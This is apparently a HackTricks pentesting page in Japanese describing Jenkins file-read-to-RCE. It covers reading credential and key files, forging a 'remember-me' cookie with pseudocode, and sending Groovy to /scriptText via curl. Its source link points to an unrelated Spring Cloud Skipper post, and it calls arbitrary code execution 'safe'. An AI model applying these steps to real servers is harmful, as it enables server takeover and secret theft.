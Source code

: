 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

このブログ投稿では、Jenkinsのローカルファイルインクルージョン脆弱性をRCEに変換する素晴らしい方法を見つけることができます: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

これは、任意のクッキーを作成することがRCEを取得するために悪用される投稿の部分のAIによって作成された要約です。自分で要約を作成する時間ができるまでの間のものです:

### 攻撃の前提条件

* **機能要件:** "Remember me"が有効である必要があります（デフォルト設定）。
* **アクセスレベル:** 攻撃者は全体/読み取り権限が必要です。
* **秘密アクセス:** 重要なファイルからバイナリおよびテキストコンテンツを読み取る能力。

### 詳細な悪用プロセス

#### ステップ1: データ収集

**ユーザー情報の取得**

* 各ユーザーのために`$JENKINS_HOME/users/*.xml`からユーザー設定と秘密をアクセスして収集します:
* **ユーザー名**
* **ユーザーシード**
* **タイムスタンプ**
* **パスワードハッシュ**

**秘密鍵の抽出**

* クッキーの署名に使用される暗号鍵を抽出します:
* **秘密鍵:** `$JENKINS_HOME/secret.key`
* **マスターキー:** `$JENKINS_HOME/secrets/master.key`
* **MACキーのファイル:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### ステップ2: クッキーの偽造

**トークンの準備**

*   **トークンの有効期限を計算:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // 現在の時間に1時間を追加
```
{% endcode %}
*   **トークンのためのデータを連結:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**MACキーの復号化**

*   **MACキーのファイルを復号化:**

```javascript
key = toAes128Key(masterKey)  // マスターキーをAES128キー形式に変換
decrypted = AES.decrypt(macFile, key)  // .macファイルを復号化
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**署名の計算**

*   **HMAC SHA256を計算:**

```javascript
mac = HmacSHA256(token, macKey)  // トークンとMACキーを使用してHMACを計算
tokenSignature = bytesToHexString(mac)  // MACを16進数文字列に変換
```

**クッキーのエンコーディング**

*   **最終クッキーを生成:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // クッキーのデータをBase64エンコード
```
{% endcode %}

#### ステップ3: コード実行

**セッション認証**

* **CSRFおよびセッショントークンを取得:**
* `/crumbIssuer/api/json`にリクエストを送信して`Jenkins-Crumb`を取得します。
* 応答から`JSESSIONID`をキャプチャし、remember-meクッキーと一緒に使用します。

**コマンド実行リクエスト**

*   **Groovyスクリプトを使用してPOSTリクエストを送信:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Groovyスクリプトは、システムレベルのコマンドやJenkins環境内の他の操作を実行するために使用できます。

提供されたcurlコマンドの例は、必要なヘッダーとクッキーを使用してJenkinsにリクエストを送信し、任意のコードを安全に実行する方法を示しています。

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
